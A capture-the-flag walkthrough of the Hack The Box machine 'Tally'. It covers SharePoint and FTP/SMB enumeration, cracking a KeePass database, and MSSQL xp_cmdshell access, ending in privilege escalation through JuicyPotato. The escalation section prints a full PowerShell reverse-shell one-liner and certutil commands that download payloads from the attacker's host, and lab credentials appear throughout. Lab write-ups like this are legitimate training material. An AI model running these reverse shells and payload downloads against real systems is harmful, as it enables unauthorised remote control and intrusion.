# HTB - Tally

#### Ip: 10.10.10.59
#### Name: Tally
#### Rating: Hard

----------------------------------------------------------------------



### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.59
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:34 CDT
Nmap scan report for 10.10.10.59
Host is up (0.078s latency).
Not shown: 65514 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
81/tcp    open  hosts2-ns
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
808/tcp   open  ccproxy-http
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
15567/tcp open  unknown
32843/tcp open  unknown
32844/tcp open  unknown
32846/tcp open  unknown
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49675/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ sudo nmap -sC -sV -T4 10.10.10.59 -p 21,80,81,135,139,445,808,1433,5985,15567,32843,32844,32846,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:35 CDT
Nmap scan report for 10.10.10.59
Host is up (0.068s latency).

PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
81/tcp    open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp   open  ccproxy-http?
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2016 13.00.1601.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.59:1433: 
|     Target_Name: TALLY
|     NetBIOS_Domain_Name: TALLY
|     NetBIOS_Computer_Name: TALLY
|     DNS_Domain_Name: TALLY
|     DNS_Computer_Name: TALLY
|_    Product_Version: 10.0.14393
|_ssl-date: 2023-08-02T14:37:07+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.10.10.59:1433: 
|     Version: 
|       name: Microsoft SQL Server 2016 RTM
|       number: 13.00.1601.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-08-02T14:31:42
|_Not valid after:  2053-08-02T14:31:42
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
15567/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Runtime Error
32843/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
32844/tcp open  ssl/http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-08-02T14:37:07+00:00; 0s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=SharePoint Services/organizationName=Microsoft/countryName=US
| Subject Alternative Name: DNS:localhost, DNS:tally
| Not valid before: 2017-09-17T22:51:16
|_Not valid after:  9999-01-01T00:00:00
|_http-title: Service Unavailable
32846/tcp open  storagecraft-image StorageCraft Image Manager
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-08-02T14:37:02
|_  start_date: 2023-08-02T14:31:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.74 seconds
```

Navigating to the page on port 80 we find ourselves in a SharePoint page:



We can kick off a GoBuster scan against the site to discover more directories. Because we are pentesting sharepoint specifically I'll use a specialized list from seclists:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt -u 10.10.10.59
```

This dumps a TON of information to sift through, and after a lot of trial and error we finally find http://10.10.10.59/_layouts/15/viewlsts.aspx which has some content we can take a look at. 



Taking a look in the Documents folder we find an interesting file. 



We can go ahead and download this and open in in LibreOffice.



Cool, looks like we've found an FTP password, but still don't have a username for it. 

We can then navigate to Site Pages where we find another clue. Note: for some reason following these links appends `/_layouts/15/start.aspx#/` before the desired directory. Simply removing the `_layoffs/...` from the URL allows us to access what we need. 

Checking out the Finance Team page we discover 4 potential usernames:



We can now use these credentials to login to FTP:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ ftp 10.10.10.59                                                                                                 
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:ryan): ftp_user
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49949|)
125 Data connection already open; Transfer starting.
08-31-17  11:51PM       <DIR>          From-Custodian
10-01-17  11:37PM       <DIR>          Intranet
08-28-17  06:56PM       <DIR>          Logs
09-15-17  09:30PM       <DIR>          To-Upload
09-17-17  09:27PM       <DIR>          User
226 Transfer complete.
```

Going into the `User` directory we discover even more users. 



Browsing through the Users files we find Keepass materials in Tim's directory.

```text
125 Data connection already open; Transfer starting.
09-15-17  08:58PM                   17 bonus.txt
09-15-17  09:24PM       <DIR>          KeePass-2.36
09-15-17  09:22PM                 2222 tim.kdbx
```

We can bring this back to our attacking machine using the `get` command.

Once the tim.kdbx file is back on our machine, we can use keepass2john and JohntheRipper to crack the password:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ keepass2john tim.kdbx > kee_hash.txt
```
and John can crack the password as simplementeyo.

We can now login to the keepass DB and grab some more credentials:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ kpcli --kdb=tim.kdbx
```

Finance:Acc0unting

Lets use these creds to access SMB and see what else we can find. 



In `\zz_Archived\SQL\` we find an interesting file called conn-info.txt, using `get` to bring it back to our machine, we find yet another pair of credentials:



Hmm, looks like these credentials aren't working anywhere. Lets keep enumerating SMB.

In the `\zz_Migration\Binaries\New Folder\` share we find a file called teset.exe. Bringing that back locally and running the `strings` command against it we find even more credentials:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ strings tester.exe 

<SNIP>

Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
```

Nice, we can now login to the DB with:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ sqsh -S 10.10.10.59 -U sa -P'GWE3V65#6KFH93@4GWTG2G'
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1>
```

Because we're the sa user, lets enable xp_cmdshell so we can get a shell:



### Exploitation

Now that xp_cmdshell is enable and we can execute commands, I can head over to https://www.revshells.com/ and grab a base64 encoded reverse shell, set up a listener, and catch a shell back as user Sarah:



We can now grab the user.txt flag and also check out the todo.txt file in Sarah's Desktop:



### Privilege Escalation 

Once on the box I noticed that sarah had SeImpersonatePrivilege enabled. 



Lets try JuicyPotato to escalate privileges:

First I created a file called shell.bat:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.46',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then transfered this script along with JuicyPotato over to the target:

```text
certutil -urlcache -split -f "http://10.10.14.46/shell.bat"

certutil -urlcache -split -f "http://10.10.14.46/JuicyPotato.exe"
```

Then, with my listener set up I ran:

```text
PS C:\users\Sarah\Desktop> C:\Users\Sarah\Desktop\JuicyPotato.exe -l 444 -p C:\Users\Sarah\Desktop\shell.bat -t *
```

And caught a shell back as nt authority\system!



Thanks for following along!

-Ryan

------------------------------------------------------

